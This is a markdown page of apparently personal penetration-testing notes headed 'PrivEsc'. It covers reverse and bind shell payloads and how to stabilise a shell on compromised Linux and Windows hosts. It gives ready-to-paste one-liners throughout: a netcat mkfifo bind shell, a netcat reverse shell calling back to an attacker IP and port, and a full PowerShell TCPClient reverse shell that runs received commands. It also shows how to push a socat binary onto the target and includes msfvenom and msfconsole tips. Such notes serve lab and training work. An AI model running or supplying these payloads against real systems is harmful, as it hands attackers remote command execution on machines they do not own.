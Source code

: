 # PrivEsc

[Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). The  [Reverse Shell Cheat](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) sheet is also commonly used.

WhyIsARavenLikeAWritingDesk?---------------------------------------------------------------------------------------------------------------------

## **Shell Stabilization**

### **Technique 1: Python**

&#x20;                            **only Linux boxes**

* The first thing to do is use&#x20;

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* , which uses Python to spawn a better featured bash shell; some cases specify`python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
* Step two is:&#x20;

```
export TERM=xterm
```

\-- this will give us access to term commands such as `clear`.

* Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
* Then Again use netcat to connect back

### **Technique 2: rlwrap**

so first install it with `sudo apt install rlwrap`

```
rlwrap nc -lvnp <port>
```

background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell

### **Technique 3: Socat**

&#x20;         Linux

To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine.

1. Open http sever for file tramsfers&#x20;
2. `wget /socat -O /tmp/socat`

## `Tips to change tty size after using any of the techniues above`

1. First, open another terminal and run stty -a. This will give you a large stream of output. Note down the values for "rows" and columns
2. Next, in your reverse/bind shell, type in `stty rows <number>` and `stty cols <number>`

allowing programs such as text editors which rely on such information being accurate to correctly open

\---------------------------------------------------------------------------------------------------------------------

### Stable Linux Shells

For Bind shells to create stable listner use(kali):victim box

`mkfifo /tmp/f; nc -lvnp < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`\


This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![](https://i.imgur.com/Xf0hA5p.png)

\---------------------------------------------------------------------------------------------------------------------

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

## Windows psh reverse-shell

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`\


In order to use this, we need to replace "\<IP>" and "\<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

![](https://i.imgur.com/T6o7kOL.png)

_Payload Naming Conventions Msf venom_

`<OS>/<arch>/<payload>`

Windows 32bit targets the arch is not specified

\---------------------------------------------------------------------------------------------------------------------

To start listner inside msfconsole exploit -j

\---------------------------------------------------------------------------------------------------------------------

